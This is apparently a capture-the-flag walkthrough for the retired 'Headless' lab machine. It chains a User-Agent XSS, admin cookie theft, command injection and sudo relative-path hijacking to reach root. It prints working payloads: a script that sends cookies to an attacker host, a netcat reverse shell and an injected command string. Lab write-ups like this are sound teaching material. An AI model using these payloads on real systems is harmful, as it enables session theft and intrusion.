





## Introduction

Headless is a retired easy difficulty machine. The main approach to this machine is the Cross-site Scripting (XSS) that can be implement in the customer support form, which we then can use to steal the admin cookie.

## Enumeration

Once the machine is booted up, we can scan for open ports on the machine with nmap.

```
> nmap -sC -sV -o headless.nmap 10.10.11.8
# Nmap 7.95 scan initiated Wed Sep  4 17:42:34 2024 as: nmap -sC -sV -o headless.nmap 10.10.11.8
Nmap scan report for 10.10.11.8
Host is up (0.092s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
|_http-title: Under Construction
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  4 17:42:54 2024 -- 1 IP address (1 host up) scanned in 20.04 seconds
```

We found that the http server is open on port 5000. We can navigate to this website with url http://10.10.11.8:5000/



Clicking on the For Questions button we are met with our first point of attack, which is the customer support form.



Other than that, we don't have any other attack vector. We can try to find any hidden directory with Gobuster

```shell
> gobuster dir -u http://10.10.11.8 -w namelist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.8:5000
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /opt/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265]
Progress: 20463 / 26585 (76.97%)[ERROR] parse "http://10.10.11.8:5000/error\x1f_log": net/url: invalid control character in URL
Progress: 26584 / 26585 (100.00%)
===============================================================
Finished
===============================================================
```

We manage to found `/dashboard` but its getting error 500. But when navigating to the page we get error 401 (Unauthorized) hinting that there may be some form authentication.

We can try opening this in our proxy tool like Burp Suite to see what our request would look like.

```
POST /support HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 73
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/support
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

fname=John&lname=Doe&email=john%40test.com&phone=11223123&message=testing
```

Since, this is a POST request we can try test to see if its vulnerable to XSS with simple alert script in one of the field.

```html
<script>alert(1)</script>
```

However when we do this we get the following page.



However when we intercept this request in our Burp Suite and place the payload in the `User-Agent` headers, we get the script reflected to us, indicating that this site is vulnerable to XSS attack.

The response shows that the admin will be reviewing our XSS attempt request, and one of the headers that is present is `is_admin`, indicating that there may be a cookie for the admin that we can steal especially the `http-only` flag for the cookie is set to false.

## Exploit

Before sending the request, we need to set up a simple Python server so that we can get the request.

```
> python3 -m http.server 8000
```

We then can try to steal the admin cookie with the following payload:

```html
<script>var img = new Image();img.src="http://<IP_ADDR>:8000/cookie?="+btoa(document.cookie)</script>
```
We would get the following on our python server once the request are sent. Since the cookie is base64 encoded, we can decode it in Bash. 

> Note: We can try to send the raw cookie, but for best practice so it makes the exploit less obvious and potentially prevent server-side filtering.

```shell
...
10.10.14.3 - - [06/Sep/2024 10:50:39] "GET /cookie?=SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDAK HTTP/1.1" 404 -
> echo 'SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDAK' | base64 -d
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

We can use this cookie to replace our existing cookie in Firefox. Now, when we navigate to `/dashboard`, we are greeted with the following page.



Clicking on 'Generating Report' button, only outputs that the "System are up and runing". Intercepting the request in Burp Suite shows the following request.

```
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 15
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Connection: keep-alive

date=2023-09-15
```

We can try to see if command injection by inserting `;whoami;id` in the body and sure enough, we get back the command result.



Since command injection is possible on this machine, we can try to get reverse shell through this. Poking around a bit, we found that netcat is installed on this machine, thus we can spawn a shell with that.

```shell
> nc <IP_ADDR> 1337 -e /bin/bash
```

The user flag can be found at `/home/dvir`.

## Privilage Escalation

Once we get back a shell, we can try to find out what command this user can perform sudo as with `sudo -l`

```bash
> sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

It seems we can run syscheck. Performing `file /usr/bin/syscheck` shows that it is a Bash script.

```bash
> cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
```

The most interesting part of this script is the invokation of initdb.sh. This script invokes the initdb.sh which is supposed to be in the current directory where the script is being run. We can create a reverse shell script and name it initdb.sh.

```bash
#!/bin/bash
/bin/bash
```

We now can run the syscheck script with sudo.
```sh
# sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
# whoami
root
```

We know have gained root access to the machine. The root flag can be found at `/root`.
